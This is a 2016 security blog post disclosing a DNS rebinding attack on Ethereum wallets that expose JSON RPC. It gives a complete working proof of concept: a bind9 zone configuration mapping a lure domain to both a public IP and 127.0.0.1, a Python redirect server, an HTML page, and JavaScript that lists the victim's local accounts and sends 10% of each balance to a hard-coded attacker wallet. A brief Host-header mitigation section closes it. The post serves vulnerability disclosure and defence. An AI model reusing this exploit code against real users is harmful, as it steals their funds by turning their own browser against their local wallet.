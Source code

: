 !!!
ethereum-wallet-exploit
July 6, 2016
Walking Past Same-origin Policy, NAT, and Firewall for Ethereum Wallet Control
This vulnerability was originally reported to the Etherum Bug Bounty on June 12th, 2016. At the core of this attack is a "DNS Rebinding" vulnerability, in this post I explain the vulnerability, suggest an exploit, and leave you with a complete proof-of-concept solution.
<!--no banner-->
!!!


This vulnerability was originally reported to the Etherum Bug Bounty on June 12th, 2016.

## DNS Rebinding
At the core of this attack is a "DNS Rebinding" vulnerability, I remember learning about this years ago from [RSnake](https://twitter.com/rsnake) on either [ha.ckers.org](https://web.archive.org/web/*/ha.ckers.org) or [xssed.com](http://www.xssed.com). A copy of RSnake's original DNS Rebinding exlpainer video can be found [here](https://www.youtube.com/watch?v=FIQGKIE3Fv0). For those already familiar with the concepts of [DNS](https://en.wikipedia.org/wiki/Domain_Name_System) and [Same-origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) the explanation for malicious domain `scam.rhodey.org` is pretty simple:

1. Publish two DNS A Records, one with the legitimate IP address, the other with `127.0.0.1`
2. Direct a victim to visit `http://scam.rhodey.org`
3. Serve some JavaScript *(scam.js)* from `scam.rhodey.org`
4. After serving, blackhole the victim's IP address using iptables
5. All AJAX requests to `scam.rhodey.org` from *scam.js* now hit `127.0.0.1`

DNS Rebinding attacks are so bizarre because all the hostile traffic you'd usually mitigate through NAT or firewall is coming from **inside the network**, and in this case the victim machine is actually attacking itself! This attack makes it past same-origin policy because same-origin works on domain names not IP addresses.

## The Attack
Ethereum nodes and wallets have standardized on [JSON RPC](https://eth.wiki/json-rpc/API), this is what we'll be attacking. Enabling RPC is a prerequisite for using many "DAPPS" (Decentralized Applications) and [Mist Browser](https://github.com/ethereum/mist) (now deprecated) used to enable RPC by default.

## Nameserver Configuration
The nameserver I'm using is [bind9](https://wiki.debian.org/Bind9) and the malicious domain will be `scam.rhodey.org`. It is crucial that the legitimate IP address of `scam.rhodey.org` be served before `127.0.0.1`, to do this you must compile bind9 from source with the `--enable-fixed-rrset` option and set `rrset-order` in your configuration.

```
### /etc/bind/named.conf.options
options {
  directory "/var/cache/bind";
  dnssec-validation auto;
  auth-nxdomain no;
  listen-on-v6 { any; };
  recursion no;
  allow-transfer { none; };
  rrset-order { order fixed; };
};

### /etc/bind/zones/db.rhodey.org
$TTL 1800 
@ IN SOA ns1.rhodey.org. rhodey.anhonesteffort.org. (
  2016061209 ; Serial
  1800       ; Refresh
  180        ; Retry
  2419200    ; Expire
  1800 )     ; Negative Cache TTL

; Name servers
rhodey.org.    IN    NS    ns1.rhodey.org.
rhodey.org.    IN    NS    ns2.rhodey.org.

; Name server A records
ns1    IN    A    173.255.255.43
ns2    IN    A    173.255.255.43

; Other A records
@     IN    A    173.255.255.43
scam  IN    A    173.255.255.43
scam  IN    A    127.0.0.1
```

## Pretty Lil' Redirect
By convention Ethereum JSON RPC uses TCP port `8545` which means to satisfy same-origin policy we'll need to serve the exploit from `8545` as well, but `http://scam.rhodey.org:8545` looks hella shady so we use a [HTTP 307 Redirect](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/307) to bounce `http://rhodey.org` to `http://scam.rhodey.org:8545`.

```python
import BaseHTTPServer
import time

OUR_HOST  = "rhodey.org"
OUR_PORT  = 80
NEXT_HOST = "scam.rhodey.org"
NEXT_PORT = "8545"
REDIRECT  = "http://" + NEXT_HOST + ":" + NEXT_PORT

class RedirectHandler(BaseHTTPServer.BaseHTTPRequestHandler):
  def do_HEAD(s):
    s.send_response(307)
    s.send_header("Location", REDIRECT)
    s.end_headers()
  def do_GET(s):
    s.do_HEAD()

if __name__ == '__main__':
  server_class = BaseHTTPServer.HTTPServer
  httpd        = server_class((OUR_HOST, OUR_PORT), RedirectHandler)
  print time.asctime(), "Server Starts - %s:%s" % (OUR_HOST, OUR_PORT)
  try:
    httpd.serve_forever()
  except KeyboardInterrupt:
    pass
  httpd.server_close()
  print time.asctime(), "Server Stops - %s:%s" % (OUR_HOST, OUR_PORT)
```

## The HTML
After redirecting the victim to malicious domain we serve some very basic HTML.

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>taker</title>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/2.2.0/jquery.min.js"></script>
  </head>
  <body>
    <div id="logDiv"></div>
    <script src="scam.js"></script>
  </body>
</html>
```

## The JavaScript
The JavaScript does a few things:

1. send a HTTP GET request to `http://scam.rhodey.org/goodbye`, triggering the iptables blackhole.
2. retrieve a list of Ethereum wallets via wallet RPC.
3. send `%10` of each wallets balance to my Ethereum wallet.

Between step 1 and 2 the victim's IP address has been blackholed by iptables such that the browser receives [TCP close with RST flag](https://stackoverflow.com/questions/13049828/fin-vs-rst-in-tcp-connections), this causes the browser to move onto the next record for `scam.rhodey.org` which is `127.0.0.1`... rebind complete! Communication between JavaScript and the Ethereum JSON API is made possible by the Ethereum [web3.js](https://web3js.readthedocs.io) library.

```javascript
var BigNumber    = require('big-number');
var DEST_ADDRESS = "0xbd9864678B27C1932831D462ABFF9471f2f8Dd3c";
var web3         = null;
var logHtml      = "";

function log(msg) {
  var logDiv = document.getElementById("logDiv");
  logHtml += ("<br/>" + msg);
  logDiv.innerHTML = logHtml;
}

function getHref() {
  var parts = window.location.href.split("/");
  return parts[0] + "//" + parts[2];
}

function initW3() {
  log("initializing w3...");
  var Web3 = require('web3');
  web3 = new Web3();
  web3.setProvider(new web3.providers.HttpProvider(getHref()));
}

function takeEthFrom(address) {
  log("getting balance for account " + address + "...");
  var balanceWei = web3.eth.getBalance(address);
  var takeWei = balanceWei.div(10);
  var txn = {
    from  : address,
    to    : DEST_ADDRESS,
    value : takeWei
  };

  log("sending transaction -> " + JSON.stringify(txn, null, 2));
  web3.eth.sendTransaction(txn, function(err, result) {
    if (!err) {
      log("transaction succeeded with result -> " + result);
    } else {
      log("transaction failed with error -> " + err);
    }
  });
}

function takeEth() {
  log("getting account list...");
  var accounts = web3.eth.accounts;
  for (var i = 0; i < accounts.length; i++) {
    takeEthFrom(accounts[i]);
  }
}

function sayGoodbye() {
  log("rebinding dns...");
  $.ajax({
    type: 'GET',
    url: '/goodbye',
    success: function(data, status, xhr) {
      initW3();
      takeEth();
    },
    error: function (data, status, error) {
      log("xhr /goodbye failed, status -> " + status + " error -> " + error);
    }
  });
}

sayGoodbye();
```

## Mitigation
Mitigating DNS Rebinding vulnerabilities is very simple: **always check HTTP Host headers**. The malicious HTTP requests that reach the victim wallet have a [HTTP Host Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Host) of `scam.rhodey.org` which should be checked against `localhost` and/or a whitelist. In June 2016 the most popular Ethereum implementation [go-ethereum](https://github.com/ethereum/go-ethereum) did not check host headers.

## Proof-of-Concept Source
Everything you need to perform this attack can be found [here in my Github repo](https://github.com/rhodey/eth-rebind).
